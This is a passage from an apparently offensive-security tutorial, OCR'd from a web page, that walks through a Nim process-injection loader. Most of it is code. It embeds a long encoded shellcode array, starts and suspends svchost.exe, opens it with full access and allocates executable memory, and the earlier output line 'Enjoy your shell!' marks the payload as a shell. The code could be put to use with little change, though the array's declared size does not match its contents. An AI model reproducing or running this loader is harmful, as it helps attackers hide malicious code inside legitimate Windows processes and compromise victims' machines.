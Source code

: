     # It works, print final messages to stdout.
        echo "[+] Thread Handle: ", threadHandle
        echo "[*] Enjoy your shell!"
        
        ### end process injection code


Finally, we use the CreateRemoteThread function to execute the shellcode within our process and print two messages to standard out.

Putting it all together, our process injection code block should look something like this.  Your shellcode will be much longer and the number of bytes may vary slightly.

    ### begin process injection code
    
    var shellcode: array[201391, byte] = [ byte 0xd9,0xc3,0x48,0xbb,0xd3,0x76,0x8b,0x6e,0xea,0xe9,0xaa,0x6b,0x54,0x4d,0x31,0xed,0x41,0x5c,0x66,0x41,0xbd,0x4f,0x62,0x66,0x41,0x81,0xe4,0x10,0xf6,0x49,0x0f,0xae,0x04,0x24,0x49,0x83,0xc4,0x08,0x49,0x8b,0x3c,0x24,0x49,0xff,0xcd,0x4a,0x31,0x5c,0xef,0x37,0x4d,0x85,0xed,0x75,0xf3,0x9b,0xff,0x68,0x08,0x6b,0x0a,0xda,0x91,0x9b,0x47,0x42,0x26,0x52,0xf9,0xb6,0x77,0x62,0x64,0xec,0xed,0xb7,0x30,0x66,0x23,0xdc,0xd8,0x88,0x08,0x53,0xa0,0xc8,0x23,0x58,0x05,0x83,0x26,0x15,0x20,0xe2,0x5a,0x97,0xb8,0x90,0x26,0x6f,0x20,0xdf,0x98,0x8e,0x30,0xd6,0x8d,0xad,0xc6,0xa0,0xd3,0x8b,0xe9,0x7b,0xff,0xb0,0x0d,0xcd,0xc6,0x2b,0x6a,0x97,0xdf,0xf8,0xd5,0x61,0xb7,0x00,0xdd,0xc0,0xdf,0xf8,0x71,0xfa,0x7e,0x42,0xa9,0xa3,0x69,0xfa,0x8e,0x60,0xbf,0x1b
    <output trimmed>
    0xc3,0x6a,0x97,0xdf,0xf8,0x8e,0x29,0x36,0xc3,0x6a,0x97,0xdf,0xf8,0x8e,0x29,0x36,0xc3,0x6a,0x97,0xdf,0xf8,0x8e,0x29,0x36,0xc3,0x6a,0x97,0xdf,0xf8,0x8e,0x29,0x36,0xc3,0x6a,0x97,0xdf,0xf8,0x8e,0x29,0x36,0xc3,0x6a,0x97,0xdf,0xf8,0x8e,0x29,0x36,0xc3,0x6a,0x97,0xdf,0xf8,0x8e,0x29,0x36,0xc3,0x6a,0x97,0xdf,0xf8,0x8e,0x29,0x36,0xc3,0x6a,0x97,0xdf,0xf8,0x8e,0x29,0x36,0xc3,0x6a,0x97,0xdf,0xf8,0x8e,0x29,0x36,0xc3,0x6a,0x97,0xdf,0xf8,0x8e,0x29,0x36,0xc3,0x6a,0x97,0xdf,0xf8,0x8e,0x29,0x36,0xc3,0x6a,0x97,0xdf,0xf8,0x8e,0x29,0x36,0xc3,0x6a,0x97,0xdf,0xf8,0x8e,0x29,0x36,0xef,0x6b,0x97,0xdf,0xe8,0x80,0x29,0x36,0xc9,0x6a,0x97,0xdf,0xf8,0x8e,0x29,0x36,0xc3,0x6a,0x97,0x6a,0xd7,0xaa,0x61,0xca,0x97,0xdf,0xf8,0x8e,0x29,0x36,0xc3, ]
    
    proc injector[I, T](shellcode: array[I, T]): void =
        echo "[*] Initializing injector."
    
    # Start and suspend a process:
        let injectedProcess = startProcess("C:\\Windows\\system32\\svchost.exe")
        injectedProcess.suspend()
        echo "[*] Started and suspended process: ", injectedProcess.processID
    
    # Open the process so we can access it with a handle
        let processHandle = OpenProcess(PROCESS_ALL_ACCESS,false,cast[DWORD](injectedProcess.processID))
    
        echo "[*] Injected process handle: ", processHandle
    
    # Call VirtualAllocEx to make some memory space
        let memPointer = VirtualAllocEx(processHandle,NULL,cast[SIZE_T](shellcode.len),MEM_COMMIT,PAGE_EXECUTE_READ_WRITE)
    
